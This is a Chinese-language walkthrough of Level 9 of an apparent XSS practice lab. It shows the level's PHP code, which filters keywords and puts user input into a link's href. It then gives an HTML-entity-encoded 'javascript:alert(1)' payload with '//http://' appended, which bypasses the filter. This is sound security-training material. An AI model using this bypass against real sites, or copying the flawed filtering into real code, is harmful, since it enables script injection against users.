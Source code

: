 ![](https://img.yatjay.top/md/202203061021933.png)

### Level-9

查看后端PHP代码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

提交的参数会被拼接到名为友情链接的超链接当中去，但是除了检查上述关键字之外，还会判断提交参数中是否有`http://`，若没有则无法成功拼接

#### 构造XSS语句

绕过思路

- 编码绕过关键字过滤
- 添加`//http://`，满足提交参数包含`http://`，js语句执行时`//`后的语句注释掉，以避免影响js语句执行

则XSS代码如下，即在上一关的`javascript:alert(1);`编码之后添加`//http://`

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

提交后添加友情链接，成功触发XSS语句

![](https://img.yatjay.top/md/202203061029500.png)
